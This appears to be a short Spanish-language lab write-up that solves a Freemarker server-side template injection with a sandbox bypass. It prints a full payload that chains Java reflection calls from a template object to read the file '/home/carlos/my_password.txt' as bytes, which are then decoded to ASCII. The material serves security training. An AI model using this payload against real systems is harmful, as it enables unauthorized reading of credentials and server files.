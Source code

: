 En esta clase explotamos una SSTI en Freemarker dentro de un entorno supuestamente aislado. Usamos el objeto **product** como punto de entrada para encadenar métodos de Java como ‘**getClass()**‘, ‘**getProtectionDomain()**‘ y ‘**openStream()**‘ hasta acceder al archivo sensible ‘**/home/carlos/my_password.txt**‘.

Obtenemos su contenido como bytes ASCII y lo convertimos para resolver el laboratorio, demostrando que incluso los entornos con sandbox pueden ser vulnerables si no se aíslan correctamente los métodos de reflexión.

Solucion
aqui nos encontramos con el mismo de freemarker
![Pasted image 20250814203648.png](imagenes/Pasted image 20250814203648.png)
entonce nos vamos a buscar el payload
![Pasted image 20250814204301.png](imagenes/Pasted image 20250814204301.png)
y lo ideal una ves terminado de configurar el payload sera convertirlo ascii
(${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")})
![Pasted image 20250814204346.png](imagenes/Pasted image 20250814204346.png)
https://www.prepostseo.com/tool/decimal-to-ascii
![Pasted image 20250814204605.png](imagenes/Pasted image 20250814204605.png)
